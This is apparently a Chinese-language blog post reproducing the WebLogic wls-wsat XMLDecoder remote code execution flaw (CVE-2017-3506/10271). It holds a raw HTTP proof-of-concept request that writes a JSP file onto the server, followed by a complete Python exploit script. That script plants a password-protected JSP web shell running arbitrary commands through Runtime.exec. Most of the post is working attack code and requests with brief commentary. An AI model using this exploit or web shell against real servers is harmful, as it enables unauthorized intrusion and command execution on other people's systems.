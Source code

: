 ```yaml
---
title: "WebLogic RCE 复现"
date: 2018-02-06T00:00:00+08:00
draft: false
tags: ['cms']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


WebLogic Server 组件的 WLS Security 子组件存在安全漏洞, 可造成任意代码执行.

<!--more-->

poc

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.2.100:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 582

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/vuln.jsp</string><void method="println">
                        <string>weblogic</string></void><void method="close"/>
                    </object>
                </java>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

发送代码

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560533.jpg)

访问 /bea_wls_internal/vuln.jsp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560609.jpg)

本地查看

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560621.jpg)

已经生成成功

**exp**

```
import requests
import sys

def exploit(url,filename):
    content = '<% if("weblogic".equals(request.getParameter("pass"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>'
    payload = '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java><java version="1.6.0" class="java.beans.XMLDecoder"><object class="java.io.PrintWriter"><string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/'+filename+'</string><void method="println"><string><![CDATA['+content+']]></string></void><void method="close"/></object></java></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>'
    headers = {'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0','Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8','Upgrade-Insecure-Requests':'1','Content-Type':'text/xml'}
    response = requests.post(url+'/wls-wsat/CoordinatorPortType',data=payload,headers=headers)
    if response.status_code == 500:
        print 'Shell:',url + '/bea_wls_internal/' + filename + '?pass=weblogic&cmd=whoami'
    else:
        print 'Fail'

if __name__ == '__main__':
    print '[*] WebLogic wls-wsat RCE Exp'
    print '[*] CVE-2017-3506 & CVE-2017-10271'
    print
    if len(sys.argv) == 3:
        exploit(sys.argv[1],sys.argv[2])
    else:
        print 'Usage: WebLogic_Exp.py url shell.jsp'
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560673.jpg)

backdoor.jsp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560689.jpg)